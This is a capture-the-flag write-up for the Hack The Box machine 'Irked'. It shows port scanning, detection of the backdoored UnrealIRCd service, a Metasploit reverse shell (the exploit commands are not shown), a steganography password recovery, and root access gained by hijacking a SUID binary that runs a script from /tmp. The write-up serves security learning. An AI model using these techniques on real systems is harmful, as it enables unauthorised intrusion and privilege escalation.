



# Irked

__URL__: https://www.hackthebox.eu/home/machines/profile/163

__Machine IP__: 10.10.10.117

__DATE__ : 10/04/2019

-------------------------------------------------------------------------------

Let's start with the basics

`NMAP` - Full port scan
------------------------

```bash
➜ nmap -p- 10.10.10.117
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-21 15:16 IST
Nmap scan report for 10.10.10.117
Host is up (0.16s latency).
Not shown: 65505 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
111/tcp   open     rpcbind
4027/tcp  filtered bxp
6324/tcp  filtered hrd-ncs
6697/tcp  open     ircs-u
7852/tcp  filtered unknown
8067/tcp  open     infi-async
8218/tcp  filtered unknown
8901/tcp  filtered jmb-cds2
33435/tcp filtered mtrace
55801/tcp open     unknown
65534/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 2713.11 seconds
```

Okay so as usual we can see the port 22 and 80 are open. But what looked interesting was `ircs-u` i.e port `6697`.

**Why this is interesting?**

Because we can try to connect with the IRC and maybe even try to exploit that.

-------------------------------------------------------------------------------

Let's test whether there is something fishy with the IRC service:

```bash
➜ nmap -sV --script=irc-unrealircd-backdoor 10.10.10.117 -p 6697
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-21 20:20 IST
Nmap scan report for 10.10.10.117
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
6697/tcp open  irc     UnrealIRCd
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
Service Info: Host: irked.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.28 seconds
```

hmmm....trojaned version of IRC meaning someone has messed with it... Let's fire up the big gun

So we use metasploit to exploit this CVE:


All the options are set Now, :boom: `EXPLOIT` :boom:


After Getting reverse shell I spawn the TTY shell using python:
```python
python -c 'import pty; pty.spawn("/bin/sh")'
```
I spent sometime looking around and found a user called `djmardov` and found out that there's a backup file in the `Document` folder.

```bash
$ cat /home/djmardov/Documents/.backup
cat /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
hmm...:thinking_face:

After lot of messing around, reading forum comments and what not I figured out why it was referring to Stego.
Basically If you visit the website(http://10.10.10.117/) we are prompted with the following page:


I asked myself a question `what if this yellow image has something to do with Stego?` So why not test this with something like steghide.

```bash
➜ steghide extract -sf irked.jpg
Enter passphrase:
wrote extracted data to "pass.txt".
```

Wooh!!! :tada:

------------------------------------------------------------------------------

I got `pass.txt` using `UPupDOWNdownLRlrBAbaSSss` as steghide password

```bash
➜ cat pass.txt
Kab6h+m+bbp2J:HG
```

Use this password to login into the `djmardov's` account via `SSH`



Now just find the **`user.txt`**  in the `Documents` folder

```bash
djmardov@irked:~$ cat ./Documents/user.txt
4a66a78b12dc0e661a59d3f5c0267a8e
```

Priv escalation
--------------------------------------------------------------------

Now let's run `LinEnum` file to see if we can find something interesting.
I got something interesting in SUIDs


The `viewuser` command looks interesting.Executing the viewuser command I got the following output:



Notice the last line
```
sh: 1: /tmp/listusers: not found
```

So basically the `viewuser` command is showing all the users and then it's trying to execute the `listusers` file in the `/tmp` directory.

Let's go and make a file and see with what privileges it's executing that file(it should be `root` because the `viewuser` SUID is under root)

```bash
#!/bin/bash
whoami
```
Now execute the `viewuser` command again and BOOM!!! :tada:



This mean we can execute any command as a `root`, so simply put the following line in the file:

```bash
#!/bin/bash

cat /root/root.txt
```


